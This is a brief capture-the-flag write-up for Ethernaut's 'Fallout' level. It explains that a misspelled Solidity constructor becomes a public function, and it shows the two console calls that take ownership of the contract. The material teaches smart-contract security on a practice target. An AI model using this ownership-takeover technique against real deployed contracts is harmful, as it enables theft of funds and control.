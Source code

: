 [Level 2. Fallout](https://ethernaut.openzeppelin.com/level/0x676e57FdBbd8e5fE1A7A3f4Bb1296dAC880aa639)

## Concepts

1. The rules and the evolution of `constructors`.

## Target

1. Take ownership of the contract

## BreakDown & Analysis

The `constructor` has a typo: `Fal”1”out`. Since the wrong spelling, it is served as a function rather than a `constructor`, so everyone can call it and take ownership.<br>
Also, prior to version 0.4.22, a `constructor` is defined as a function with the same name as the contract, however, it was deprecated in version 0.5.0, so it is not allowed to use it as a `constructor` in 0.6.0.

## Detailed Steps (work through the console)

```js
await contract.Fal1out() // call the wrong-spelled function to take ownership
await contract.owner() === player // check if you're the owner now
```
